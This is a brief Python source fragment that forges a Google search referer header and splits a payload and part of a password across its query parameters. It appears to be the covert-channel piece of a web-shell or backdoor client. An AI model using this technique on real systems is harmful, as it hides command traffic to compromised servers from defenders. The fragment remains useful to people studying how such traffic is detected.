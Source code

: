 		referer = "http://www.google.com/url?sa=%s&source=web&ct=7&url=%s&rct=j&q=%s&ei=%s&usg=%s&sig2=%s" % (
            self.password[:2],
            urllib2.quote(self.url),
            self.query.strip(),
            payload[:third],
            payload[ third:thirds],
            payload[thirds:]
        )


